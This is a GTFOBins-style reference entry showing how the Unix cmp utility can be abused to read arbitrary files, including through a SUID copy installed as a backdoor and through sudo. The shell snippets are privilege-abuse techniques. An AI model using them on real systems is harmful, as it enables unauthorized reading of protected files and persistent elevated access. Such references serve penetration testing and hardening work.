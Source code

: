 # GTFOBin: cmp

Dump the bytes of the input file that are different from the NUL byte in a tabular format, hence this may not be suitable to read arbitrary binary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
cmp $LFILE /dev/zero -b -l
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which cmp) .

LFILE=file_to_read
./cmp $LFILE /dev/zero -b -l
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo cmp $LFILE /dev/zero -b -l
```